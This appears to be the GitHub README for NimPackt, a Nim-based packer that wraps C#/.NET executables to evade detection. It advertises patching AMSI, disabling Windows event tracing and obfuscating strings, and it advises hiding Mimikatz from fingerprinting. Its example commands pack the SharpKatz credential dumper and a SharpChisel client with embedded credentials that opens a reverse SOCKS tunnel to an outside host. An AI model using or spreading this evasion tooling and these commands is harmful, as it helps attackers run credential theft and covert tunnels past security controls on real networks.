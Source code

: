 ![NimPackt](assets/Nimpackt-Logo-Blacktext.png)

# A Nim-based packer for C# / .NET executables

## Description

NimPackt is a Nim-based packer for C# / .NET executables. It automatically wraps these executables (along with its arguments) in a Nim binary that is compiled to Native C and as such harder to detect or reverse engineer. Currently, it has the following features.

- Cross-platform compilation (from both Linux and Windows)
- Patching the Anti-Malware Scan Interface (AMSI)
- Disabling Event Tracing for Windows (ETW)
- Obfuscating static strings used in the binary
- Supports both x64/x86 compilation (make sure to grab the right architecture for the ingested binary)

A great source for C#-based binaries for offensive tooling can be found [here](https://github.com/Flangvik/SharpCollection). It is highly recommended to compile the C# binaries yourself. You should replace strings for, as well as obfuscate, sensitive binaries (like Mimikatz) to avoid fingerprinting.

If you want to go all-out on OpSec, you could re-pack the Nim binary using a tool like [PEzor](https://github.com/phra/PEzor) to remove userland hooks (until Project5 is supported) or encode the binary until execution.

## Installation

On **Linux**, simply install the required packages and use the Nimble package installer to install the required packages. Then you're good to go!

```
sudo apt install -y python3 mingw-w64 nim
nimble install winim strenc
```

On **Windows**, execute the Nim installer from [here](https://nim-lang.org/install_windows.html). Make sure to install `mingw` and set the path values correctly using the provided `finish.exe` utility, then install the required packages as follows.

```
nimble install winim strenc
```

## Usage

```
usage: NimPackt.py [-h] -i INPUTFILE [-a ARGUMENTS] [-86] [-H] [-na] [-ne] [-v] [-V]

required arguments:
  -i INPUTFILE, --inputfile INPUTFILE
                        C# .NET binary executable to wrap

optional arguments:
  -a ARGUMENTS, --arguments ARGUMENTS
                        Arguments to "bake into" the wrapped binary, or "PASSTHRU" to accept run-time arguments (defaults to empty string)
  -32, --32bit          Compile in 32-bit mode
  -H, --hideapp         Hide the app frontend (console output) by compiling it in GUI mode
  -na, --nopatchamsi    Do NOT patch (disable) the Anti-Malware Scan Interface (AMSI)
  -ne, --nodisableetw   Do NOT disable Event Tracing for Windows (ETW)
  -v, --verbose         Print debug messages of the wrapped binary at runtime
  -V, --version         show program's version number and exit
```

**Examples:**

```
# (Windows) Pack SharpKatz to accept commands at runtime, patch AMSI and disable ETW while printing verbose messages on runtime 
# Note that applications may crash silently if you pass the wrong arguments in PASSTHRU mode (depending on the application)
python3 .\NimPackt.py -v -i .\SharpBins\SharpKatz-x64.exe -a "PASSTHRU"

# (Linux) Pack SharpChisel with a built-in ChiselChief connection string, do not patch AMSI or disable ETW, hide the application window on runtime
python3 NimPackt.py -H -i /tmp/SharpChisel.exe -a 'client --auth nimpackt.demo_A:718nubCpwiuLUW --keepalive 25s --max-retry-interval 25s https://chisel.azurewebsites.net R:10073:socks'
```

## Known issues

- The `-H` flag doesn't seem to properly hide the output of the executed bytes. Need to investigate this further.
- For large input binaries (over 10-15MB), the compiler seems to fail with the "out of memory" error sometimes due to the source code containing a ~80Mb byte string. Will look into this further in terms of compilation settings or string splitting, workaround for now is to optimize the C#-compiled binary for size (e.g. SharpChisel contains two 8Mb dll files, remove the one for the architecture you don't need before compiling).

## Wishlist

- Encode embedded byte string before compilation, decode during runtime to prevent static analysis
- Provide option to deploy `Project5` to unhook API calls before execution
- Provide option to pack as dll library